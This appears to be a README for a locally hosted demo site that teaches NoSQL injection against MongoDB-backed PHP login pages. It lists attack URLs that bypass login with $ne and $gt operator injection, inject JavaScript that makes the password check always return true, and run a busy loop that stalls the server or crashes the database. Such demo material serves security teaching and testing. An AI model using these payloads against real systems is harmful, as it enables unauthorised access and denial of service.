 # NoSQLInjectionAttackDemo
NoSQLInjectionAttackDemo is website demo for test NoSQL Injection. There are two website demos in this project and all databases are mongoDB
# Requirements
Install web server for example nginx, apache on local computer. On a Debian, Red Hat based system or windows are ok.
# Building
demo   : http://localhost/github/NoSQLInjectionAttackDemo/demo.html

demo_1 : http://localhost/github/NoSQLInjectionAttackDemo/demo_1.html
# Usage
Open url in the browser: http://localhost/github/NoSQLInjectionAttackDemo/demo.html
![image](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo/blob/master/images/demo.png)
Attack URL for demo:
* http://localhost/github/NoSQLInjectionAttackDemo/login/detected_login.php?username[$ne]=2&password[$ne]=r
* http://localhost/github/NoSQLInjectionAttackDemo/login/detected_login.php?username[$gt]=&password[$gt]=

Attack URL for demo_1:
* http://localhost/github/NoSQLInjectionAttackDemo/login/login_1.php?username=1&password=2;return true;}//
无论用户密码是否正确都返回true
* http://localhost/github/NoSQLInjectionAttackDemo/login/login_1.php?username=1&password=2;var date = new Date(); var curDate = null; do { curDate = new Date(); } while((Math.abs(date.getTime()-curDate.getTime()))/100 < 20); return true;}//
将系统延迟20秒，如果改成while((Math.abs(date.getTime()-curDate.getTime()))/1000 < 20); 则可以导致数据库报错。.